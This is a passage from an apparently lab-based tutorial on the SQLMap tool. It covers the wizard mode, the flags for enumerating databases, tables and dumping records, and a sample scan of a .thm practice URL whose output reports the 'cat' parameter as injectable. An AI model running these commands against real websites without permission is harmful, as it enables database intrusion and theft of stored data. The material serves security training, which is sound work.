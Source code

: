As this is a command-line tool, you must open your Linux OS terminal to use it. The `--help` command with **SQLMap** will list all the available flags you can use. If you don't want to manually add the flags to each command, use the `--wizard` flag with **SQLMap**. When you use this flag, the tool will guide you through each step and ask questions to complete the scan, making this a perfect option for beginners.

```shell
user@ubuntu:~$ sqlmap --wizard
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]

[*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u):
```

The `--dbs` flag helps you to extract all the database names. Once you get to know the database names, you can extract information about the tables of that database by using `-D database_name --tables`. After obtaining the tables, if you want to enumerate the records in those tables, you can use `-D database_name -T table_name --dump`. The different flags in the **SQLMap** tool let you extract detailed information from the databases. Now, let's take a practical scenario and use all the above flags to exploit a web application vulnerable to **SQL injection**.

The first step is to look for a possible vulnerable URL or request. You may often come across some URLs that use **GET** parameters to retrieve the data. For example, a URL like [`http://sqlmaptesting.thm/search?cat=1`](http://sqlmaptesting.thm/search?cat=1) uses a parameter `cat` that takes the value `1`. If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the `-u` flag in the **SQLMap** tool. This is considered to be HTTP GET-based testing. This approach is followed when the application uses GET parameters in the URL to retrieve data from the searches.

We will use a supposedly vulnerable website URL: [`http://sqlmaptesting.thm`](http://sqlmaptesting.thm) for the demonstration. Suppose that this website has a search option, and when you click on this search option and search for something, the URL becomes [`http://sqlmaptesting.thm/search/cat=1`](http://sqlmaptesting.thm/search/cat=1), which uses the GET parameter `cat=1` in the URL to extract information from the database. As we know, URLs that have GET parameters can be vulnerable to **SQL injection**; let us scan this URL to identify if it has any SQL injection vulnerability.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
```